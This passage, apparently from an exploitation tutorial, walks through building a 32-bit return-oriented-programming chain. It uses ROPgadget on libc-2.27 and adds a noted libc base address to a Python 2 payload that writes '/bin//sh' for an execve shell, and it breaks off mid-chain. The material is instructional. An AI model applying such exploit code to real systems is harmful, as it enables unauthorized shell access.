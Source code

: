 Here, we can see the version of `libc` that is getting loaded at runtime. `/lib/i386-linux-gnu/libc-2.27.so` is getting loaded at the base address of `0xf7ddd000`. We will now use the following command to search for gadgets and create a chain using `ROPGadget` tool
```
$ ROPgadget --ropchain --binary /lib/i386-linux-gnu/libc-2.27.so > ./gadgets.txt
```
The gadgets found will be saved in `gadgets.txt` file. At the end of the file we can see that a `python2` code will be generated for ROP chain to call `/bin/sh`. Let us have a peep inside this file
```
Unique gadgets found: 118662

ROP chain generation
===========================================================
- Step 5 -- Build the ROP chain

	#!/usr/bin/env python2
	# execve generated by ROPgadget

	from struct import pack

	# Padding goes here
	p = ''
```

The addresses inside the ROP chain will be offsets inside the `libc.so` library. We have to add the base address that we have noted earlier. After adding the base address and the offset for the `EIP`, the python script will look as follows:
```python
#!/usr/bin/env python2
# execve generated by ROPgadget

from struct import pack

# Offset to EIP
p = 'A'*18
# Add the base address of the libc.so library
base = 0xf7ddd000

# Put the address of .data section will be moved into edx register
p += pack('<I', base + 0x00001aae) # pop edx ; ret
p += pack('<I', base + 0x001d8040) # @ .data

# Address of '/bin' string into eax register
p += pack('<I', base + 0x00024c1e) # pop eax ; ret
p += '/bin'

# Mov '/bin' string to start of .data section
p += pack('<I', base + 0x00075655) # mov dword ptr [edx], eax ; ret

# Mov '//sh' string to .data+4 section
p += pack('<I', base + 0x00001aae) # pop edx ; ret
p += pack('<I', base + 0x001d8044) # @ .data + 4
p += pack('<I', base + 0x00024c1e) # pop eax ; ret
p += '//sh'
p += pack('<I', base + 0x00075655) # mov dword ptr [edx], eax ; ret

# Now, we have to give two more arguments to the execve() function, which can be null
p += pack('<I', base + 0x00001aae) # pop edx ; ret
p += pack('<I', base + 0x001d8048) # @ .data + 8
p += pack('<I', base + 0x0002e565) # xor eax, eax ; ret
p += pack('<I', base + 0x00075655) # mov dword ptr [edx], eax ; ret

# First argument has to be in ebx
p += pack('<I', base + 0x00018c85) # pop ebx ; ret
p += pack('<I', base + 0x001d8040) # @ .data
```